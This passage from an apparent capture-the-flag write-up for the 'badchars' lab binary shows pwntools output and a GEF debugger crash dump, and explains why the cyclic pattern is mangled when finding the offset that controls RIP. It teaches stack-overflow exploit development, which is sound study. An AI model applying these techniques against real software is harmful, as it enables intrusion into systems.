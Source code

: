 ```
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab\n'
[*] Switching to interactive mode
[DEBUG] Received 0xb bytes:
    b'Thank you!\n'
Thank you!
[*] Got EOF while reading in interactive
```

Notice how our cyclic pattern looks pretty skewed during the crash, preventing us from reliably determining the crash offset at which we can control RIP:

```
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb               
$rbx   : 0x0               
$rcx   : 0x00007f7f17e15ff3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fff2b261b58  →  0xebebeb6cebebeb6b
$rbp   : 0xebebeb6aebebeb69
$rsi   : 0x00007f7f17ee6723  →  0xee8670000000000a
$rdi   : 0x00007f7f17ee8670  →  0x0000000000000000
$rip   : 0x00007f7f17f06a06  →  <pwnme+268> ret 
$r8    : 0xb               
$r9    : 0x2               
$r10   : 0xfffffffffffff55b
$r11   : 0x246             
$r12   : 0x0000000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fff2b261b58│+0x0000: 0xebebeb6cebebeb6b   ← $rsp
0x00007fff2b261b60│+0x0008: 0xebebeb6eebebeb6d
0x00007fff2b261b68│+0x0010: 0xebebeb70ebebeb6f
0x00007fff2b261b70│+0x0018: 0xebebeb72ebebeb71
0x00007fff2b261b78│+0x0020: 0xebebeb74ebebeb73
0x00007fff2b261b80│+0x0028: 0xebebeb76ebebeb75
0x00007fff2b261b88│+0x0030: 0xebebebebebebeb77
0x00007fff2b261b90│+0x0038: 0x62ebeb7aebebeb79
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f7f17f069ff <pwnme+261>      call   0x7f7f17f06780 <puts@plt>
   0x7f7f17f06a04 <pwnme+266>      nop    
   0x7f7f17f06a05 <pwnme+267>      leave  
 → 0x7f7f17f06a06 <pwnme+268>      ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "badchars", stopped 0x7f7f17f06a06 in pwnme (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f7f17f06a06 → pwnme()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤ 
```
